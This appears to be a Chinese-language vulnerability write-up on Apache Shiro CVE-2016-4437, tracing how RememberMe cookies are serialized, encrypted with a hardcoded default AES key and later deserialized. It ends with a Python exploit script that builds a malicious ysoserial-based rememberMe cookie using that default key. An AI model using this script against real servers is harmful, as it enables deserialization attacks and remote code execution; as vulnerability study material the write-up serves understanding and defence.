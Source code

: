 # Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞
**原理:**  
在Remember me功能中,其设置的cookie字段内容可被伪造,且该内容未被验证过滤进行反序列化处理造成反序列化漏洞
## Remember me
Remember me可以为用户生成一个长时间存在的cookie以便即使浏览器关闭后再次打开相关页面也不用再次登输入账号密码
### 生成过程
在onSuccessfulLogin函数中,当用户登录后调用forgetIdentity()来清除之前的认证信息,然后调用isRemeberme判断是否启用了Remeberme功能,如果启用了则调用remeberIdentity()进行后续操作
```java

    public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
        //always clear any previous identity:
        forgetIdentity(subject);//清除已有的认证信息

        //now save the new identity:
        if (isRememberMe(token)) {//判断是否启用remeberme功能
            rememberIdentity(subject, token, info);//后续操作
        } else {
            if (log.isDebugEnabled()) {
                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                        "RememberMe functionality will not be executed for corresponding account.");
            }
        }
    }
```
在rememberIdentity()中首先调用getIdentityToRemember()来获取到用户ID对象,然后调用rememberIdentity()
![](pic/202007061png.png)
在rememberIdentity()中使用convertPrincipalsToBytes来将用户ID对象序列化为一个字节数组,然后调用加密函数对字节数组进行encrypt
```java
    protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);//序列化
        if (getCipherService() != null) {
            bytes = encrypt(bytes);//调用加密函数
        }
        return bytes;
    }
```
在encrypt()中调用默认的AES算法对字节数组进行加密,而AES的加密密钥则是从getEncryptionCipherKey()中获取的,而该值为一个固定的值
![](pic/202007062.png)
默认加密密钥
![](pic/202007063.png)
rememberIdentity()在得到AES加密后的结果后调用rememberSerializedIdentity()来将该值b64编码后设置到cookie中
![](pic/202007064.png)

生成流程:
1. 登录成功后清除已有认证信息,判断Remeberme参数是否为true
2. 获取用户ID对象,反序列化ID对象之后调用AES加密
3. 将加密后的结果b64编码后设置到cookie中供后续使用

![](pic/202007065.png)
### 解码过程 
去掉登录的session来发送一个带有rememberme cookie的请求,触发resolvePrincipals()方法,在其中调用
getRememberedIdentity()进行remeberme认证,还原用户ID对象  
```java
    protected SubjectContext resolvePrincipals(SubjectContext context) {

        PrincipalCollection principals = context.resolvePrincipals();

        if (CollectionUtils.isEmpty(principals)) {
            log.trace("No identity (PrincipalCollection) found in the context.  Looking for a remembered identity.");

            principals = getRememberedIdentity(context);
            ...
            ...
```
在getRememberedIdentity()方法中,在该函数中获取到一个getRememberMeManager对象,然后调用其getRememberedPrincipals()方法获取到存储的Principal对象,也就是包含用户信息的一个对象
```java
    protected PrincipalCollection getRememberedIdentity(SubjectContext subjectContext) {
        RememberMeManager rmm = getRememberMeManager();//获取getRememberMeManager对象
        if (rmm != null) {
            try {
                return rmm.getRememberedPrincipals(subjectContext);//调用getRememberMeManager的getRememberedPrincipals方法
            } catch (Exception e) {
                if (log.isWarnEnabled()) {
                    String msg = "Delegate RememberMeManager instance of type [" + rmm.getClass().getName() +
                            "] threw an exception during getRememberedPrincipals().";
                    log.warn(msg, e);
                }
            }
        }
        return null;
    }
}
```
在getRememberedPrincipals()中从cookie的remeberme字段获取到值进行b64解码得到加密的序列化后的字节数组,然后传入convertBytesToPrincipals中
![](pic/202007066.png)
getRememberedSerializedIdentity获取对应cookie值
![](pic/202007067.png)
在convertBytesToPrincipals()中对AES加密的值进行解密,解密后直接传入deserialize()
![](pic/202007068.png)
最后在deserialize中来到最终的readObject方法,造成反序列化漏洞
![](pic/202007069.png)

## ExP
```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)

```
![](pic/202007072.png) 

![](pic/202007071.png)